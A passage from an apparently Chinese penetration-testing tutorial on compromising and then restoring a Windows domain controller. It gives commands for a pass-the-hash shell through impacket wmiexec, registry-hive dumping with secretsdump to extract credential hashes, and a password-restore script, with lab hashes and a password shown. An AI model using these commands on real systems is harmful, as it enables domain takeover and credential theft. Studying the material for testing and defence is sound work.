 使用`impacket`包内的`wmiexec`直接获取域控`shell`：

  * 

    
    
    python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:7782c491c3a02792f0e86319b29e7a24 Administrator@192.168.31.240

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181251.png)

## 0x02 密码恢复

目标机器`hash`长时间为空密码会导致脱域，对域环境产生重大影响，所以在拿到权限后需尽快恢复`hash`。

### 2.1 获取原密码hash

获取目标机器`shell`后，在`cmd`中执行或者上线`CS`后执行命令并下载文件到本地。

  *   *   *   *   *   *   *   *   * 

    
    
    reg save HKLM\SYSTEM system.savereg save HKLM\SAM sam.savereg save HKLM\SECURITY security.saveget system.saveget sam.saveget security.savedel /f system.savedel /f sam.savedel /f security.save

![]()

获取到本地后利用`secretsdump`解析原`hash`：

  * 

    
    
    secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181252.png)

### 2.2 恢复hash

获取原`hash`后还原：

  * 

    
    
    python3 reinstall_original_pw.py DC 192.168.31.240 aecc311d1181efcde6ff2f744b3060d8

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181253.png)

查询域控`hash`是否还原成功：

  * 

    
    
    secretsdump.py seep.cc/administrator:dcadmin@123@192.168.31.240 -just-dc-user 'DC$'

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810181254.png)

## 0x03 总结
